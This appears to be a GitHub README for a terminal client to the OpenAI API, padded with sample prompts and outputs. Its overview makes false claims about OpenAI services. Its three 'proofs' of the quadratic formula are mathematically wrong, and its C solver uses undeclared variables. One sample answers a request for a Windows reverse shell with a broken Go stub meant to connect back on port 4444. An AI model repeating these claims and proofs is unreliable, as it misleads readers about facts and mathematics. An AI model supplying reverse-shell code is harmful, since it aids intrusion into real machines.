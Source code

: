 Conversational assistant for OpenAI services
############################################
This is a terminal app that connects the OpenAI API services with a simple and ready to use interface, that can handle multiple models, includes additional fields and detailed parameters for customized requests.

Introduction:
=============
OpenAI is an artificial intelligence research laboratory that has developed a suite of tools and services for developers to use in their daily work. This guide provides an overview of the OpenAI API and explains how it can be used to create more sophisticated and intelligent applications. It also covers best practices for using the API and provides some tips for getting the most out of it.

How to start?
-------------
OpenAI API is a set of tools and services that allow developers to access and use OpenAI’s artificial intelligence technology. It provides access to a range of AI models and algorithms, including natural language processing, computer vision, and reinforcement learning. The API also provides access to a range of datasets and tools for training and deploying AI models.

Using OpenAI API is relatively straightforward. Developers can access the API through a web-based interface or through a command line interface. The API provides access to a range of AI models and algorithms, as well as datasets and tools for training and deploying AI models.

The Reinforcement Learning service allows users to create virtual environments where agents (or robots) learn from their interactions with those environments through trial-and-error methods such as Q-learning or policy gradients. This service also provides tools for analyzing agent performance over time and comparing different agent strategies against each other. 

Finally, with the Deployment service users can deploy trained models into production environments such as web apps, mobile apps or connected devices like IoT sensors or drones. This service includes features such as automated scaling of compute resources based on demand and automatic monitoring of deployed models’ accuracy over time so that they can be updated if necessary without manual intervention from developers.

When using OpenAI API, it’s important to follow best practices to ensure that the models and algorithms are used correctly and efficiently. Here are some tips for getting the most out of the API:

- Use the latest version of the API: OpenAI regularly updates its API, so it’s important to make sure you’re using the latest version.

- Test the model before deploying it: Before deploying a model, it’s important to test it to make sure it performs as expected.

- Use the appropriate data: It’s important to use the appropriate data for training the model.

- Monitor the model’s performance: Once a model is deployed, it’s important to monitor its performance and make sure it’s performing as expected.

Functional use case:
====================

1. Model Training: The OpenAI API allows developers to train their own custom models on the platform using various algorithms including reinforcement learning (RL), supervised learning (SL) or unsupervised learning (UL). This makes it easy to create custom AI applications without having to write code from scratch. 

2. Experimentation: The OpenAPI also provides a way for developers to experiment with different parameters or hyperparameters in order to optimize their model performance. This could include changing variables such as learning rate, batch size, number of layers, etc., so that they can get better results when training their model on a given dataset. 

3. Deployment: After training a model on the platform using the OpenAPI, developers can deploy it directly into production environments using either Docker containers or Kubernetes clusters depending on their needs. This allows them to easily scale up or down based on demand while still leveraging all of the benefits provided by cloud computing platforms like Amazon Web Services or Google Cloud Platforms for example. 

4. Natural Language Processing (NLP): One popular use case for the OpenAPI is natural language processing (NLP). Developers can use NLP technology powered by deep learning algorithms in order to understand text data and generate meaningful insights from it which can then be used in applications such as chatbots or question-answering systems etc..  

5. Image Recognition: Another common use case is image recognition where developers are able utilize deep neural networks trained via supervised learning algorithms in order identify objects within images accurately and quickly using computer vision technology powered by OpenAPI’s resources and services . 

6. Speech Recognition: Finally , speech recognition is another important application area which leverages both machine-learning technologies along with audio signals processing technologies available through open APIs in order achieve high accuracy rates when transcribing voice recordings into text data .

Practical prompts:
==================

1. A Simple Proof of the Quadratic Formula

The quadratic formula is a mathematical equation used to solve for the roots of a quadratic equation. It states that for any quadratic equation in the form ax2 + bx + c = 0, the two solutions are given by:

x = [-b ± √(b2 - 4ac)] / 2a 

To prove this formula, we will use algebraic manipulation. 

Let's start with the general form of a quadratic equation: ax2 + bx + c = 0. We can rearrange this equation to get x2 + (b/a)x + (c/a) = 0. Now, we can factor this equation as (x + r)(x + s) = 0, where r and s are constants. 

We can then set each factor equal to zero and solve for x: 

x + r = 0 → x = -r 
and 
x + s = 0 → x = -s 
Therefore, x has two solutions: -r and -s. 
Now, we can substitute our constants back into the original equation: 

 (-r)(-s) = rs = c/a   and   r+s= b/a  

 Solving these equations simultaneously yields:

 r= [(-b ± √(b2 - 4ac))] / 2a   and   s= [(-b ∓ √(b2 - 4ac))] / 2a  

 Therefore, our two solutions for x are given by:

 x= [-b ± √(b2 - 4ac)] / 2a , which is the same as the quadratic formula!
A Simple Proof of the Quadratic Formula

The quadratic formula states that for any equation in the form of ax2 + bx + c = 0, the solutions can be found by solving for x using the following formula:

x = [-b ± √(b2 - 4ac)] / 2a

Proof: 
Let's start with the equation ax2 + bx + c = 0. We can rearrange this equation to make it easier to work with: 
ax2 + bx = -c 
Now we need to isolate x, so let's subtract bx from both sides of the equation: 
ax2 = -bx - c 
Next, divide both sides by a: 
x2 = (-b/a)x - (c/a) 
Finally, we can use the quadratic formula to solve for x: 
x = [-(-b/a) ± √((-b/a)2 - 4(c/a))] / 2(1/a) 
Simplifying this expression yields: 
x = [-b ± √(b2 - 4ac)] / 2a 
Which is exactly what the quadratic formula states! Thus, we have proven that the quadratic formula is valid.
A Simple Proof of the Quadratic Formula

The quadratic equation is expressed as ax2 + bx + c = 0, where a, b, and c are arbitrary constants.

To solve for x, we can use the quadratic formula: 

x = [-b ± √(b2 - 4ac)] / 2a 

Proof: 
Let's start with the left side of the equation. We can rewrite it as (ax + b)(x + c) = 0. Then, we can factor out x from each term on the left side to get x(ax + b) + c(x) = 0. We can then combine like terms to get x2 + (b/a)x + (c/a) = 0. Now, if we compare this to our original equation ax2 + bx + c = 0, we can see that a=1 and b/a=b and c/a=c. Therefore, our original equation is equivalent to x2 + bx + c = 0. 

Now let's look at the right side of the equation. We can rewrite it as x=[-b ± √(b2 - 4ac)] / 2a . If we multiply both sides by 2a, we get 2ax=[-2ab ± √(b2 - 4ac)]. Then if we add 2ab to both sides of the equation, we get 2ax+2ab=[√(b2 - 4ac)]. Finally, if we subtract both sides by √(b2 - 4ac), we get 2ax+2ab-√(b2 - 4ac)=0 which is equivalent to our original equation x2+bx+c=0. 

Therefore, the quadratic formula is indeed true and valid for solving any quadratic equation in the form ax^2+bx+c=0

2. Generate a reverse shell script using golang with an asm dll library that links to win32 kernel and ntdll.dll

// This script will generate a reverse shell using golang and an asm dll library that links to win32 kernel and ntdll.dll

package main 
import ( 
    "fmt" 
    "os/exec" 
    "syscall" 
) 
func main() { 

    // Create the assembly dll library with the win32 kernel and ntdll.dll linked.  
    cmd := exec.Command("gcc", "-shared", "-o", "revshell.dll", "-lkernel32", "-lntdll") 

    // Execute the command to create the dll library.  
    err := cmd.Run() 

    if err != nil { 
        fmt.Println(err) 
    } else {  

    // Load the created DLL library into memory.  
    lib, _ := syscall.LoadDLL("revshell.dll")  

    // Execute the DLL library to create a reverse shell connection back to our machine on port 4444.  
    proc, _ := lib.FindProc("ReverseShell")  

    proc.Call(uintptr(4444))  

    fmt.Println("Reverse Shell Connected!")    

    }    
}

Generate a PoC for a quadratic formula using C

#include <stdio.h> 
#include <math.h> 
  
int main() 
{ 
    double a, b, c; 
    double root1, root2, imaginary; 
  
    printf("Enter a: "); 
    scanf("%lf", &a); 

    printf("Enter b: "); 
    scanf("%lf", &b); 

    printf("Enter c: "); 
    scanf("%lf", &c); 

    double determinant = b*b - 4*a*c;  

    // condition for real and different roots  
    if(determinant > 0) 
    { 
        root1 = (-b+sqrt(determinant))/(2*a); 
        root2 = (-b-sqrt(determinant))/(2*a); 

        printf("root1 = %.2lf and root2 = %.2lf",root1 , root2); 
    } 
  
    //condition for real and equal roots 
    else if(determinant == 0) 
    { 
        root1 = root2 = -b/(2*a); 

        printf("root1 = root2 = %.2lf;", root1); 
    } 
  
    // if roots are not real 
    else
    { 
        realPart = -b/(2*a); 
        imaginaryPart = sqrt(-determinant)/(2*a); 
        printf("root1 = %.2lf+%.2lfi and root2 = %.2f-%.2fi", realPart, imaginaryPart, realPart, imaginaryPart); 
    } 
  
    return 0; 
} 

Disclaimer:
===========
This software is provided "as-is" and without any warranties of any kind, express or implied. The developer does not make any claims, promises or guarantees about the accuracy, completeness, reliability or suitability of this software for any purpose. 

In no event shall the developer be liable for any loss or damage including but not limited to direct, indirect, incidental, special consequential damages arising out of the use of this software. 

The user acknowledges that the use of this software is at his/her own risk and discretion. The user agrees to indemnify and hold harmless the developer from all liabilities that arise from their use of this software. 

This disclaimer applies to all versions of the software and may be updated at anytime without prior notice.

